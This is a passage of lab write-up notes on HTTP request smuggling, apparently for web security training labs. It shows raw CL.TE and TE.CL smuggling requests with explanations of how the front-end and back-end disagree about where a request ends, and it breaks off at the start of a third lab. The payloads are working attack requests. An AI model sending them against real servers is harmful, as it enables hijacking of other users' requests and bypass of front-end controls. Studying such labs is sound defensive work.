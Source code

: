     POST /post/comment HTTP/1.1
    Content-Length: 6
    Transfer-Encoding: chunked

    0

    G

The front-end is using the CL header to specify the body of the request. But at the back-end, it is using TE which decides that the body stop at `0\r\n\r\n`. Resend that POST request, this time the server is assuming the next request starts with `GPOST` which indeed returns this error:

    "Unrecognized method GPOST"

### LAB: HTTP request smuggling, basic TE.CL vulnerability
Send this request:

    POST / HTTP/1.1\r\n
    Host: 0a34009b04472206809aee3400a30036.web-security-academy.net\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 4\r\n
    Transfer-Encoding: chunked\r\n
    \r\n
    56\r\n
    GPOST / HTTP/1.1\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 6\r\n
    \r\n
    0\r\n
    \r\n

The frontend server is using TE, so sending:
```
    56\r\n
    GPOST / HTTP/1.1\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 6\r\n
    \r\n
    0
```
would send the whole smuggled request to the backend server.
The first `CL=4` to make the server thinks that our request ends at `56\r\n` and make the smuggled `GPOST` request part of the next request.
The second `CL=6` is 1 plus the length of the body:
```
0\r\n
\r\n
```
This is to make part of the next normal request stick to the smuggled request and get the response from the smuggled request respond to the normal request. This length can be up to the length of the normal request plus the length of the above body.

### LAB: HTTP request smuggling, obfuscating the TE header
First identify what the front-end is using to identify where a request ends:
